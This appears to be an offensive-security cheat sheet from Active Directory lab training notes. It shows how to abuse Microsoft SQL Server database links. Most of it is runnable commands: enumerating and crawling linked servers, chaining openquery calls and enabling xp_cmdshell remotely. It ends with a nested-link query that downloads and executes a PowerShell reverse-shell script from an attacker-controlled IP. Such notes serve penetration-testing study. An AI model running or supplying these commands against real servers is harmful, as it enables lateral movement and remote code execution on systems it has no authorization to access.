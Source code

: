 ## MSSQL Servers - Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.

- In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.
- Database links work even across forest trusts.

**Searching Database Links**

Look for links to remote servers:
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```
Or
```powershell
select * from master..sysservers
```

**Enumerating Database Links - Manually**

**Openquery()** function can be used to run queries on a linked database:
```powershell
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Enumerating Database Links:
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```
or

Openquery queries can be chained to access links within links (nested links)
```powershell
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

**Executing Commands**

On the target server, either **xp_cmdshell** should be already enabled; or If **rpcout is enabled** (disabled by default), **xp_cmdshell** can be enabled using:
```powershell
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

**Executing Commands**

From the initial SQL server, OS commands can be executed using nested link queries:
```powershell
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')
```

**Abusing Database Links**

Crawling links to remote servers:
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local
```
